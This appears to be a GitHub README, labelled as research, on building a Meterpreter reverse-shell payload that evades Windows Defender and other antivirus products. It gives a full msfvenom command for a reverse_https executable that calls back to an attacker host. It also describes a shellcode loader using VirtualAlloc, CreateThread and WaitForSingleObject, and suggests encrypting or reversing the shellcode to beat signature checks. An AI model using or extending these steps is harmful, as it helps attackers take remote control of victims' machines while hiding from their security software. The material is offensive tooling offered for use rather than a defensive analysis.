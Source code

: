 # Windows Security Evasion, for research porpose

Malicious software that is running a reverse shell, to get full access remote to the victim machine and this software can easily bypass windows security / windows defender and others AV's, up to now (05/05/2022).


# Anti-Virus Evasion Research

I wanted to bypass the Windows Security Virus &amp; Threat Protection with some meterpreter malware that gives me access of the victim shell, so with I could get a reverse shell.

So I tried the vanilla version of the meterpreter that you can easily forge from msfvenom:

```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=4444 -f exe -o test_exploit.exe```

With that I uploaded this piece of software that is executable for windows and it contains our malware vanilla (PE32+ executable (GUI) x86-64, for MS Windows). 

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/not_clean_vanilla.png)

As you can see it has been detected as a malware in 19 differents anti-virus, but this is not too good, because even a vanilla version of a malware can bypass or can be undetected in some anti-virus softwares in the market.

But our target (Windows Defewnder) detected it as a &quot;Trojan:Win64/Meterpreter.D&quot;, so we can play around with our payload and try to bypass, this is my mission during this research.

So in msfvenom we could create a exe file to run in windows system, but also we can create a payload from that software to create a shellcode containing the malware that we want to run in the victim system with windows defender running.

Shellcodes are pieces of machine code designed to run local or remote system shell (hence the name). They are mainly used during exploitation of software vulnerabilities - when an attacker is able to control program&#39;s execution flow he needs some universal payload to execute desired action (usually shell access). This applies to both local exploitation (e.g. for privilege escalation) and remote exploitation (for gaining RCE on a server).

But first let&#39;s use Win32 API that is built into Windows, and that is an application programmig interface written in C by Microsoft to allow access to Windows features.

It is used for malware development so we will use it too.

And why we should use it?

- It is built into Windows so functionallity doesn&#39;t have to be re-written´
- It doesn&#39;t get flagged by AV
- It is fast and usually well documented

We will use it first to run our shellcode, so with that we will start with VirtualAllloc to create a executable piece of memory, then we CreateThread to execute the shellcode in memory, and finally WaitForSingleObject to not crash upon receiving a command.

```static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStacksize,IntPtr lpStartAddress, IntPtr lpParameter,uint dwCreationFlags, IntPtr lpThreadId);```

![](https://github.com/xbeatzsec/windows-security-evasion/blob/main/after_compile_1st.png)

After we compiled the file we got this result on the image above, we could bypass some of antivirus on the list but our windows defender still detecting our malware, so let&#39;s play around with our shellcode to maybe bypass it, we can encrypt our shellcode, we can reverse our byte array (shellcode). We do it now because we know that our Win32API aren&#39;t getting flagged by signature checks.
